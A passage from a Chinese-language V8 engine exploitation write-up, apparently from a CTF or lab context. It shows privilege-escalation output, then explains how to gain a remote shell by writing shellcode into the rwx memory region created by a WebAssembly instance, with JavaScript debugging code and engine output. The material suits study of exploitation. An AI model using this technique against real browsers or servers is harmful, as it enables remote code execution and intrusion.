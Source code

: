 ```bash
id
uid=1000(wz) gid=1000(wz) groups=1000(wz),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),130(kvm),131(libvirtd),133(ftp)
$ 

```

## wasm get shell

上述方法只能实现本地提权，因为我们的目标是服务器，需要弹shell回来。最好的方法就是找个rwxp的段写shellcode，这部分介绍的就是wasm来帮我们解决问题。  
wasm是一个关于面向Web的通用二进制和文本格式的项目，是一种新的字节码格式，类似能在浏览器中运行的二进制文件格式。  
在js代码中加入wasm中，程序中会存在一个rwx段，我们可以把sc放到这个段，直接跳过去。  

### 获取wasm段地址

编写一段引入wasm的js代码进行调试，可以在[这个网站](https://wasdk.github.io/WasmFiddle/)在线生成wasm代码，代码如下：

```js
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
%DebugPrint(f);
%SystemBreak();
```

调试过程如下：

```bash
DebugPrint: 0x3850e819fab9: [Function] in OldSpace
 - map: 0x201b0b444379 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3850e8182109 <JSFunction (sfi = 0x1a6852d88039)>
 - elements: 0x1be206940c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: <no-prototype-slot>
 - shared_info: 0x3850e819fa81 <SharedFunctionInfo 0>
 - name: 0x1be206944ae1 <String[#1]: 0>
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x3850e8181869 <NativeContext[246]>
 - code: 0x3d6ca6882001 <Code JS_TO_WASM_FUNCTION>
 - WASM instance 0x3850e819f8c1
 - WASM function index 0
 - properties: 0x1be206940c71 <FixedArray[0]> {
    #length: 0x1a6852d804b9 <AccessorInfo> (const accessor descriptor)
    #name: 0x1a6852d80449 <AccessorInfo> (const accessor descriptor)
    #arguments: 0x1a6852d80369 <AccessorInfo> (const accessor descriptor)
    #caller: 0x1a6852d803d9 <AccessorInfo> (const accessor descriptor)
 }

 - feedback vector: not available
0x201b0b444379: [Map]
 - type: JS_FUNCTION_TYPE
 - instance size: 56
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - callable
 - back pointer: 0x1be2069404d1 <undefined>
 - prototype_validity cell: 0x1a6852d80609 <Cell value= 1>
 - instance descriptors (own) #4: 0x3850e81998a9 <DescriptorArray[4]>
```